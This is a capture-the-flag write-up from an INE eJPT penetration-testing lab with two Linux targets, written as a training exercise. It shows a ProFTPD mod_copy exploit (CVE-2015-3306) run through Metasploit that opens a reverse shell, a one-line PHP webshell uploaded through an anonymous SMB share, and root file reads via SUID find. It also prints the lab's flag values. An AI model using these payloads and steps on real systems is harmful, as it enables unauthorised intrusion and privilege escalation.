









# Host & Network Penetration Testing: Exploitation CTF 3

**Platform:** INE Security  
**Course / Certification:** eJPT  
**Category:** Host & Network Penetration Testing — Exploitation  
**Difficulty:** Easy-Medium  
**Date Completed:** 2026-11-20  
**Flags Captured:** 4/4 ✅  

---

## 📝 Objective / Summary

The objective of this challenge is to identify, exploit, and pivot across vulnerabilities in two Linux targets (`target1.ine.local` at `192.36.68.3` and `target2.ine.local` at `192.36.68.4`) in order to capture all 4 hidden flags:

- **Target 1 (`target1.ine.local`):** Runs an unauthenticated ProFTPD 1.3.5 service. We exploit the `mod_copy` arbitrary copy vulnerability (CVE-2015-3306) via Metasploit to copy an executable PHP payload into `/var/www/html`, establishing a reverse shell as `www-data`. From the shell, we retrieve **Flag 1** from `/flag1.txt`, which provides a hint phrase (`letmein`). We then discover an internal daemon listening locally on `127.0.0.1:8888`, interact with it using Netcat, and provide the passphrase to reveal **Flag 2**.
- **Target 2 (`target2.ine.local`):** Exposes an unauthenticated SMB share (`site-uploads`) that is mapped directly to the Apache web server directory (`/site-uploads/`). We create and upload a custom PHP webshell (`simple.php`), execute system commands via the browser to locate and read `/flag3.txt` for **Flag 3**, and discover that `/usr/bin/find` has the SUID bit set. Leveraging SUID `find`'s `-exec` option, we execute `/bin/cat` with elevated root privileges to retrieve **Flag 4**.



---

## 🛠️ Tools Used

- **Nmap** — Host and service version discovery
- **Metasploit Framework (`msfconsole`)** — ProFTPD mod_copy execution (`exploit/unix/ftp/proftpd_modcopy_exec`)
- **Netcat (`nc`)** — Local TCP socket connection and banner interaction on localhost port 8888
- **smbclient** — Unauthenticated SMB connection and webshell upload
- **Firefox Web Browser** — Interacting with the uploaded PHP web shell to execute commands
- **Linux Core Utilities** — `cat`, `netstat`, `whoami`, `id`, `find`, `echo`

---

## 🌐 Target Information

| Hostname | IP Address | Operating System | Open Ports & Services | Vulnerability / Attack Vector |
|---|---|---|---|---|
| **target1.ine.local** | `192.36.68.3` | Linux (Ubuntu) | `21/tcp` (ProFTPD 1.3.5), `80/tcp` (Apache httpd), `8888/tcp` (Local listener) | ProFTPD 1.3.5 `mod_copy` Unauthenticated Arbitrary File Copy (CVE-2015-3306) & Plaintext Local Daemon on Port 8888 |
| **target2.ine.local** | `192.36.68.4` | Linux (Ubuntu) | `80/tcp` (Apache httpd), `139/tcp`, `445/tcp` (Samba SMB) | Writable Anonymous SMB Share mapped to Web Root (`site-uploads`) & SUID Binary Abuse (`/usr/bin/find`) |

**Attacker IP:** `192.36.68.2`

---

## 🔍 1. Target 1: ProFTPD `mod_copy` Exploitation & Flag 1

### Step 1.1: Vulnerability Identification (CVE-2015-3306)
Target 1 runs **ProFTPD 1.3.5** on port 21 and **Apache** on port 80. ProFTPD 1.3.5 includes the `mod_copy` module enabled by default, which supports unauthenticated `SITE CPFR` (copy from) and `SITE CPTO` (copy to) commands. An attacker can copy arbitrary files from anywhere on the filesystem to the web document root (`/var/www/html`) to achieve unauthenticated Remote Code Execution.

### Step 1.2: Exploitation via Metasploit
We load the `unix/ftp/proftpd_modcopy_exec` exploit module inside Metasploit:

```bash
msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.36.68.3
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > exploit
```

**Execution Output:**
```
[*] Started reverse TCP handler on 192.36.68.2:4444
[*] 192.36.68.3:80 - 192.36.68.3:21 - Connected to FTP server
[*] 192.36.68.3:80 - 192.36.68.3:21 - Sending copy commands to FTP server
[*] 192.36.68.3:80 - Executing PHP payload /b30Wd.php
[*] Command shell session 1 opened (192.36.68.2:4444 -> 192.36.68.3:48628) at 2026-11-20 11:16:03 +0530
```

### Step 1.3: Retrieving Flag 1 & Discovering Hint
We interact with session 1, verify our identity, and read the flag in `/flag1.txt`:

```bash
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions -i 1
[*] Starting interaction with 1...

whoami
www-data

hostname
target1.ine.local

cat /flag1.txt
FLAG1{9e43018abfaa44e796b68e637efdcb05}
Remember, the magical word is 'letmein'
```



The file reveals **Flag 1** and provides a secret passphrase hint: **`letmein`**.

✅ **Flag 1 Captured:** `FLAG1{9e43018abfaa44e796b68e637efdcb05}`

---

## 🔒 2. Target 1: Local Port 8888 Service & Flag 2

### Step 2.1: Local Port Enumeration
From our `www-data` shell on `target1.ine.local`, we inspect local listening ports using `netstat`:

```bash
netstat -tulnp
```

**Output:**
```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.11:38281        0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
udp        0      0 127.0.0.11:51517        0.0.0.0:*                           -
```

A TCP service is listening strictly on localhost at port **8888**.

### Step 2.2: Interacting with Port 8888 via Netcat
We connect to the local daemon using `nc`:

```bash
nc 127.0.0.1 8888
```

The daemon prompts for authentication:
```
Enter the secret passphrase:
```

We enter the passphrase uncovered in Flag 1 (`letmein`):

```bash
Enter the secret passphrase: letmein
FLAG2{95746724dc2844d1b258e108523ec2b1}
```



✅ **Flag 2 Captured:** `FLAG2{95746724dc2844d1b258e108523ec2b1}`

---

## 📁 3. Target 2: Anonymous SMB Upload, Web Shell & Flag 3

### Step 3.1: SMB Share Enumeration & Web Root Mapping
We turn our attention to `target2.ine.local` (`192.36.68.4`). Service enumeration reveals an SMB server with a world-writable share named **`site-uploads`** accessible anonymously without credentials (`-N`).

This share is mapped to the Apache web directory at `http://192.36.68.4/site-uploads/`.

### Step 3.2: Crafting and Uploading the PHP Web Shell
On the Kali machine, we create a one-line PHP webshell and upload it via `smbclient`:

```bash
echo '<?php echo shell_exec($_GET["cmd"]); ?>' > simple.php
smbclient //192.36.68.4/site-uploads -N
```

Inside the SMB prompt:
```bash
smb: \> put simple.php
putting file simple.php as \simple.php (39.1 kb/s) (average 26.0 kb/s)
smb: \> ls
  .                                   D        0  Fri Nov 20 11:22:41 2026
  ..                                  D        0  Tue Nov 19 13:25:31 2024
  simple.php                          A       40  Fri Nov 20 11:22:41 2026
smb: \> exit
```



### Step 3.3: Locating and Reading Flag 3 via Browser
In Firefox, we access the uploaded webshell and search for flag files:

```
http://192.36.68.4/site-uploads/simple.php?cmd=find / -name "*flag3*"
```

**Output:**
```
/flag3.txt
```



We read the contents of `/flag3.txt`:

```
http://192.36.68.4/site-uploads/simple.php?cmd=cat /flag3.txt
```

**Output:**
```
FLAG3{964919bf5d9848149f64b0dd3e2cf916}
```



✅ **Flag 3 Captured:** `FLAG3{964919bf5d9848149f64b0dd3e2cf916}`

---

## ⚡ 4. Target 2: SUID Privilege Escalation & Flag 4

### Step 4.1: Checking Web Shell Privileges
We check our current user context via the web shell:

```
http://192.36.68.4/site-uploads/simple.php?cmd=id
```

**Output:**
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



### Step 4.2: SUID Binary Enumeration
We search the filesystem for binaries with the SUID bit set (`-perm -4000`):

```
http://192.36.68.4/site-uploads/simple.php?cmd=find / -perm -4000 -type f 2>/dev/null
```

**Output:**
```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/find
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/umount
```



Notice that **`/usr/bin/find`** has the SUID bit set (`-rwsr-xr-x` owned by `root`).

### Step 4.3: SUID `find` Exploitation (GTFOBins) & Flag 4
According to **GTFOBins**, the standard UNIX `find` binary can execute commands using the `-exec` flag. When `find` possesses the SUID bit, commands spawned via `-exec` run with the effective UID of `root`.

We locate and read `flag4.txt` in a single command using SUID `find`:

```
http://192.36.68.4/site-uploads/simple.php?cmd=find / -name flag4.txt -exec /bin/cat {} \; 2>/dev/null
```

**Output:**
```
FLAG4{10625950be0a4428bee7972ed135dd79}
```



✅ **Flag 4 Captured:** `FLAG4{10625950be0a4428bee7972ed135dd79}`

---

## 🏁 5. Flags Summary

| Flag # | Objective Description | Target Host | Exploitation Vector | Flag Token / Value |
|---|---|---|---|---|
| **Flag 1** | Exploit vulnerable service on `target1` and retrieve root flag | `target1.ine.local` (`192.36.68.3`) | ProFTPD 1.3.5 `mod_copy` Arbitrary Copy RCE (CVE-2015-3306) | `FLAG1{9e43018abfaa44e796b68e637efdcb05}` |
| **Flag 2** | Interact with local service on `target1` using the discovered hint | `target1.ine.local` (`192.36.68.3`) | Netcat localhost connection (`127.0.0.1:8888`) with passphrase `letmein` | `FLAG2{95746724dc2844d1b258e108523ec2b1}` |
| **Flag 3** | Leverage misconfiguration on `target2` and retrieve `/flag3.txt` | `target2.ine.local` (`192.36.68.4`) | Anonymous SMB share upload (`simple.php`) mapped to web directory | `FLAG3{964919bf5d9848149f64b0dd3e2cf916}` |
| **Flag 4** | Escalate privileges on `target2` to access restricted flag | `target2.ine.local` (`192.36.68.4`) | SUID Binary Abuse on `/usr/bin/find` via `-exec /bin/cat` | `FLAG4{10625950be0a4428bee7972ed135dd79}` |

---

## 🧠 Key Learnings & Takeaways

1. **FTP Mod_Copy File Creation Risks:** FTP daemons with command extension modules (such as `mod_copy` in ProFTPD 1.3.5) that operate without authentication allow attackers to write arbitrary files into accessible web paths, translating an FTP service into a full web shell RCE.
2. **Local Daemon / Loopback Service Auditing:** Always inspect `netstat -tulnp` or `ss -tulnp` after obtaining initial access. Internal daemons bound to `127.0.0.1` frequently lack transport encryption and rely on simple shared secrets.
3. **Restricting SMB Share Write Boundaries:** Never expose a network share writable by anonymous (`guest` / `nobody`) users directly inside a web server's executable directory tree (`/site-uploads/`). Doing so allows attackers to upload executable scripts (`.php`, `.phtml`) without any application-level controls.
4. **SUID Binary Hardening:** Standard system utilities like `/usr/bin/find`, `/usr/bin/vim`, or `/usr/bin/awk` should never carry the SUID bit. SUID `find` allows trivial command execution with root privileges using the `-exec` flag.
